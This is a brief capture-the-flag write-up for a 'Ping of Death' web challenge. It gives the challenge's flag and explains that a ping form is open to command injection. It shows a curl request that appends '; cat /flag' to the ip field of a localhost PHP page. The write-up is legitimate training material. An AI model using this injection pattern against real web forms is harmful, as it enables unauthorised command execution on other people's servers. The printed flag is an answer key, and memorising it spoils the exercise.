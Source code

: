 # Ping of Death

**Description:** Some kid joined my Minecraft server and threatened that they were going to DDoS me using this dodgy website. In the end they just pinged my server, but I am 99% certain you can do a lot more with that website. Can you hack the dodgy website and read the flag at `/flag` on the server?

**Flag:** CTF{sCr1pTI3_k1Dd1e5_c4nN0t_pR0gRaM_aNyThIng!!11one!}

## Solution

* The target input is vulnerable to command injection.

* Additional terminal commands can be appended using either `&&`, `||` or `;` as an example.

* Example curl command to print the flag

```bash
curl -XPOST -d 'ip=8.8.8.8; cat /flag' 'http://localhost:1337/pingtodeath.php'
```
